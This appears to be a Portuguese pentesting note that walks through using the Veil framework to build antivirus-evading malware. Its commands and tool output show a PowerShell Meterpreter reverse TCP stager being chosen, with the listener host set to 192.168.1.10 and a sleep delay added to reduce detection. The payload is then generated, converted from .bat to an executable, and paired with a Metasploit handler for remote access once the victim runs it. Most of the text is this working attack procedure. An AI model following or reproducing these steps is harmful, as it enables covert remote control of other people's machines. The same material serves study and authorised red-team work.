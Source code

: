 # Veil
É uma ferramenta usada principalmente em **pentesting e segurança ofensiva**. Ele foi criado para **gerar executáveis maliciosos ofuscados**, com o objetivo de **bypassar antivírus, EDRs e outras soluções de segurança** durante testes controlados de intrusão.
O que ele faz:
* **Gera payloads**: cria arquivos executáveis a partir de *payloads* do Metasploit ou scripts customizados.
* **Ofusca código**: aplica técnicas de evasão (por exemplo, criptografia, embaralhamento de strings, uso de linguagens diferentes) para dificultar a detecção.
* **Testa contra antivírus**: permite avaliar se as defesas da empresa conseguem identificar um malware customizado.
* **Auxilia Red Teams**: ajuda a simular ataques reais, garantindo que a equipe de segurança treine contra ameaças modernas.

## Criação do payload
```
$ veil                                                                                          
===============================================================================
                             Veil | [Version]: 3.1.14
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

Main Menu

        2 tools loaded

Available Tools:

        1)      Evasion
        2)      Ordnance

Available Commands:

        exit                    Completely exit Veil
        info                    Information on a specific tool
        list                    List available tools
        options                 Show Veil configuration
        update                  Update Veil
        use                     Use a specific tool
```
Seleção do modo evasão
```
Veil>: use 1
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

Veil-Evasion Menu

        41 payloads loaded

Available Commands:

        back                    Go to Veil's main menu
        checkvt                 Check VirusTotal.com against generated hashes
        clean                   Remove generated artifacts
        exit                    Completely exit Veil
        info                    Information on a specific payload
        list                    List available payloads
        use                     Use a specific payload
```
Lista dos payloads disponíveis
```
Veil/Evasion>: list
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================


 [*] Available Payloads:                                                                          
                                                                                                  
        1)      autoit/shellcode_inject/flat.py

        2)      auxiliary/coldwar_wrapper.py
        3)      auxiliary/macro_converter.py
        4)      auxiliary/pyinstaller_wrapper.py

        5)      c/meterpreter/rev_http.py
        6)      c/meterpreter/rev_http_service.py
        7)      c/meterpreter/rev_tcp.py
        8)      c/meterpreter/rev_tcp_service.py

        9)      cs/meterpreter/rev_http.py
        10)     cs/meterpreter/rev_https.py
        11)     cs/meterpreter/rev_tcp.py
        12)     cs/shellcode_inject/base64.py
        13)     cs/shellcode_inject/virtual.py

        14)     go/meterpreter/rev_http.py
        15)     go/meterpreter/rev_https.py
        16)     go/meterpreter/rev_tcp.py
        17)     go/shellcode_inject/virtual.py

        18)     lua/shellcode_inject/flat.py

        19)     perl/shellcode_inject/flat.py

        20)     powershell/meterpreter/rev_http.py
        21)     powershell/meterpreter/rev_https.py
        22)     powershell/meterpreter/rev_tcp.py
        23)     powershell/shellcode_inject/psexec_virtual.py
        24)     powershell/shellcode_inject/virtual.py

        25)     python/meterpreter/bind_tcp.py
        26)     python/meterpreter/rev_http.py
        27)     python/meterpreter/rev_https.py
        28)     python/meterpreter/rev_tcp.py
        29)     python/shellcode_inject/aes_encrypt.py
        30)     python/shellcode_inject/arc_encrypt.py
        31)     python/shellcode_inject/base64_substitution.py
        32)     python/shellcode_inject/des_encrypt.py
        33)     python/shellcode_inject/flat.py
        34)     python/shellcode_inject/letter_substitution.py
        35)     python/shellcode_inject/pidinject.py
        36)     python/shellcode_inject/stallion.py

        37)     ruby/meterpreter/rev_http.py
        38)     ruby/meterpreter/rev_https.py
        39)     ruby/meterpreter/rev_tcp.py
        40)     ruby/shellcode_inject/base64.py
        41)     ruby/shellcode_inject/flat.py
```
Seleção do payload
```
Veil/Evasion>: use 22
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 Payload Information:
                                                                                                  
        Name:           Pure PowerShell Reverse TCP Stager
        Language:       powershell
        Rating:         Excellent
        Description:    pure windows/meterpreter/reverse_tcp stager, no
                        shellcode

Payload: powershell/meterpreter/rev_tcp selected

 Required Options:
                                                                                                  
Name                    Value           Description
----                    -----           -----------
BADMACS                 FALSE           Checks for known bad mac addresses
DOMAIN                  X               Optional: Required internal domain
HOSTNAME                X               Optional: Required system hostname
LHOST                                   IP of the Metasploit handler
LPORT                   4444            Port of the Metasploit handler
MINBROWSERS             FALSE           Minimum of 2 browsers
MINPROCESSES            X               Minimum number of processes running
MINRAM                  FALSE           Require a minimum of 3 gigs of RAM
PROCESSORS              X               Optional: Minimum number of processors
SLEEP                   X               Optional: Sleep "Y" seconds, check if accelerated
USERNAME                X               Optional: The required user account
USERPROMPT              FALSE           Window pops up prior to payload
UTCCHECK                FALSE           Check that system isn't using UTC time zone
VIRTUALPROC             FALSE           Check for known VM processes

 Available Commands:
                                                                                                  
        back            Go back to Veil-Evasion
        exit            Completely exit Veil
        generate        Generate the payload
        options         Show the shellcode's options
        set             Set shellcode option
```
Configuração do listener

`[powershell/meterpreter/rev_tcp>>]: set LHOST 192.168.1.10`

COnfiguração do sleep (diminuir a probabilidade de detecção)

`[powershell/meterpreter/rev_tcp>>]: set SLEEP 20`

Criação do payload
```
[powershell/meterpreter/rev_tcp>>]: generate
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 [>] Please enter the base name for output files (default is payload): plveil
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 [*] Language: powershell
 [*] Payload Module: powershell/meterpreter/rev_tcp
 [*] PowerShell doesn't compile, so you just get text :)
 [*] Source code written to: /var/lib/veil/output/source/plveil.bat
 [*] Metasploit Resource file written to: /var/lib/veil/output/handlers/plveil.rc

Hit enter to continue...
```
* O arquivo */var/lib/veil/output/source/plveil.bat* é o arquivo de payload.
* O arquivo */var/lib/veil/output/handlers/plveil.rc* é o arquivo metasploit de configuração e execução do listener.

## Convertendo o payload para executável

O arquivo de payload foi gerado em .bat, o que não é conveniente. Para convertê-lo em executável, usamos o app [Bat to Exe Converter](https://github.com/tokyoneon/B2E). 
* Esse é um app windows, portanto é executado no Linus através do wine.

`$ wine Bat_To_Exe_Converter.exe` para a versão 32 bits, ou

`$ wine 'Bat_To_Exe_Converter_(x64).exe'` para a versão 64 bits

Na GUI
- File/Open (Ctrl+O)
- Configure as opções
- Converter/convert

## Execução do ataque

Após o entregar o payload, entre no Metasploit e execute o /var/lib/veil/output/handlers/plveil.rc

Quando o playload for executado na máquina alvo, teremos acesso a ela.

